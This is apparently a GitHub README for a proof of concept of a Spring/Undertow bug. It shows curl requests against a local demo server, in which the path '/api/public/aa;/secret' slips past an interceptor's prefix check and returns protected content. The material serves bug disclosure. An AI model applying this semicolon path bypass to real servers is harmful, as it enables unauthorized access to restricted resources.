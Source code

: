 # spring & undertow Bug PoC

This server should accept a request only if its path starts with `/api/public/`.

[DemoInterceptor](src/main/java/com/example/demo/DemoInterceptor.java) checks request URI.

```
$ curl "localhost:9000/secret" -i
HTTP/1.1 500 Internal Server Error
Connection: keep-alive
Content-Length: 0
Date: Thu, 29 Aug 2019 10:20:04 GMT
```

But the bug of undertow allows the user to access `/secret`.

```
$ curl "localhost:9000/api/public/aa;/secret" -i
HTTP/1.1 200 OK
Connection: keep-alive
Content-Type: text/plain;charset=UTF-8
Content-Length: 17
Date: Thu, 29 Aug 2019 10:19:00 GMT

this is secret!!!
```
